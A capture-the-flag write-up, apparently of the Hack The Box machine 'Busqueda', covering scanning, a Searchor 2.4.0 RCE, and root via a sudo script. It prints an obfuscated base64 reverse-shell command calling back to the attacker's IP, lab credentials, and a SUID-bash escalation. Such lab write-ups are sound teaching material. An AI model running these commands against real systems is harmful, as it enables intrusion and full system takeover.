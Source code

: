 ## Basic NMAP Scan:
```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Busqueda]
└─$ nmap 10.129.42.141 -T4                  
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-15 21:10 +0545
Nmap scan report for 10.129.42.141
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.42 seconds

```

## Let's start Enemuration with port 80:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Busqueda]
└─$ curl 10.129.42.141     
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="http://searcher.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.129.42.141 Port 80</address>
</body></html>

```
Need to add this to /etc/hosts file.

After browsing the site, we can find on the footer:
Powered by Flask and [Searchor 2.4.0](https://github.com/ArjunSharda/Searchor) which points to the github repo, on security advisory we can find that there is a [RCE](https://github.com/ArjunSharda/Searchor/security/advisories/GHSA-66m2-493m-crh2) vulnerability in the version 2.4.0.

## Exploitation:

We can use [following](https://github.com/V35HR4J/Searchor-2.4.1-RCE) exploit:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Busqueda/Searchor-2.4.1-RCE]
└─$ python3 exploit.py http://searcher.htb/search "echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjMvMTIzNCAwPiYx|base64 -d|bash"
```

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ rev 1234
Tun0 IP: 10.10.14.23
python3 -c 'import pty;pty.spawn("/bin/bash")'
listening on [any] 1234 ...
connect to [10.10.14.23] from searcher.htb [10.129.42.141] 60406
sh: 0: can't access tty; job control turned off
$ whoami
svc
```

## Privilege Escalation:

```bash
We can find git config file in /var/www/app/.git/config

```bash
svc@busqueda:/var/www/app/.git$ cat config 
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main

```

The password for svc user is reused, also we found new subdomain as gitea.searcher.htb, let's quickly add it to our /etc/hosts and further enemurate on ssh if we can find something.

```bash
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

```
Let's try to undertsand what this script does:

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py test
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   11 months ago   Up 39 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   11 months ago   Up 39 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

Okay so we know that, we can run docker-inspect command, it is possible to leak the config with the command, found through [this](https://docs.docker.com/engine/reference/commandline/inspect/) article about docker.

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e|jq .
{
  "Hostname": "960873171e2e",
  "Domainname": "",
  "User": "",
  "AttachStdin": false,
  "AttachStdout": false,
  "AttachStderr": false,
  "ExposedPorts": {
    "22/tcp": {},
    "3000/tcp": {}
  },
  "Tty": false,
  "OpenStdin": false,
  "StdinOnce": false,
  "Env": [
    "USER_UID=115",
    "USER_GID=121",
    "GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
    "GITEA__database__USER=gitea",
    "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "USER=git",
    "GITEA_CUSTOM=/data/gitea"
  ],
  "Cmd": [
    "/bin/s6-svscan",
    "/etc/s6"
  ],
  "Image": "gitea/gitea:latest",
  "Volumes": {
    "/data": {},
    "/etc/localtime": {},
    "/etc/timezone": {}
  },
  "WorkingDir": "",
  "Entrypoint": [
    "/usr/bin/entrypoint"
  ],
  "OnBuild": null,
  "Labels": {
    "com.docker.compose.config-hash": "e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515",
    "com.docker.compose.container-number": "1",
    "com.docker.compose.oneoff": "False",
    "com.docker.compose.project": "docker",
    "com.docker.compose.project.config_files": "docker-compose.yml",
    "com.docker.compose.project.working_dir": "/root/scripts/docker",
    "com.docker.compose.service": "server",
    "com.docker.compose.version": "1.29.2",
    "maintainer": "maintainers@gitea.io",
    "org.opencontainers.image.created": "2022-11-24T13:22:00Z",
    "org.opencontainers.image.revision": "9bccc60cf51f3b4070f5506b042a3d9a1442c73d",
    "org.opencontainers.image.source": "https://github.com/go-gitea/gitea.git",
    "org.opencontainers.image.url": "https://github.com/go-gitea/gitea"
  }
}
```
We can find the password is reused, and now we have access to gitea server as administrator through this password.

Now, reviewing the code for scripts, we can find that we can actually run any command as root through full-checkup flag, below is the code snippet:

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

Let's create a file named full-checkup.sh in /tmp directory and add the following code:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Now we are root:

```bash
svc@busqueda:/tmp$ chmod +x full-checkup.sh 
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ /bin/bash -p
bash-5.1# cat /root/root.txt
a1e86be8967140570dddb993eec3b801
```

Takeaway:
- Developers are lazy, they reuse the passwords.
- Always check for the version of the software, and check for any exploits.